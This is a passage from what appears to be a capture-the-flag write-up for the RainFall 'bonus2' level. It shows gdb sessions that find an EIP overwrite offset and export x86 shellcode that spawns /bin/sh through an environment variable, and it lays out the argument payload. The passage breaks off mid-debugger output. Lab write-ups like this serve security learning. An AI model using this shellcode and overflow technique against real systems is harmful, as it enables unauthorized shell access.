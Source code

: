So, it can be either `fi` or `nl`, let's go for `fi` since the welcome message
appears to be larger.

To set or unset variables in gdb we can do:
```bash
(gdb) set environment LANG = fi
(gdb) show environment LANG
LANG = fi
```

And run again:
```bash
(gdb) r AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Starting program: /home/user/bonus2/bonus2 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab

Program received signal SIGSEGV, Segmentation fault.
0x41366141 in ?? ()
```

Nice! We found `EIP`, and that's (remember it's little endian): `Aa6A`, which is
the 6 sequence, `6 * 3 = 18`, so `EIP` is at offset `18`.

Let's take our `./resources/getaddr.c`, and export our `shellcode`:

```bash
# Nop sled to ensure we hit the target
export SC=$(printf "%100s" " " | tr ' ' 'Z'; printf '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80')
gcc getaddr.c -o getaddr
./getaddr SC
```

The address is: `0xbffffe92`.

So, let's make our payload:
- `argv[1]`:
    - 40 bytes so `strncpy` does not null-terminate the string.
- `argv[2]`;
    - 18 offset bytes.
    - Address of `shellcode`

Let's take the address of `SC`, becasue `getaddr.c` does not seem to work for
this one, just place a breakpoint after it:
```bash
bonus2@RainFall:~$ gdb -q ./bonus2
Reading symbols from /home/user/bonus2/bonus2...(no debugging symbols found)...done.
(gdb) b *main
Breakpoint 1 at 0x8048529
(gdb) r a a
Starting program: /home/user/bonus2/bonus2 a a

Breakpoint 1, 0x08048529 in main ()
(gdb) x/20s *((char**)environ)
0xbffff7f7:	 "SHELL=/bin/bash"
0xbffff807:	 "TERM=xterm-256color"
0xbffff81b:	 "SSH_CLIENT=10.0.2.2 54006 4242"
0xbffff83a:	 "SSH_TTY=/dev/pts/0"
0xbffff84d:	 "USER=bonus2"
0xbffff859:	 "LS_COLORS=rs=0:di=01;34:ln=01;36:mh=00:pi=40;33:so=01;35:do=01;35:bd=40;33;01:cd=40;33;01:or=40;31;01:su=37;41:sg=30;43:ca=30;41:tw=30;42:ow=34;42:st=37;44:ex=01;32:*.tar=01;31:*.tgz=01;31:*.arj=01;31"...
0xbffff921:	 ":*.taz=01;31:*.lzh=01;31:*.lzma=01;31:*.tlz=01;31:*.txz=01;31:*.zip=01;31:*.z=01;31:*.Z=01;31:*.dz=01;31:*.gz=01;31:*.lz=01;31:*.xz=01;31:*.bz2=01;31:*.bz=01;31:*.tbz=01;31:*.tbz2=01;31:*.tz=01;31:*.d"...
```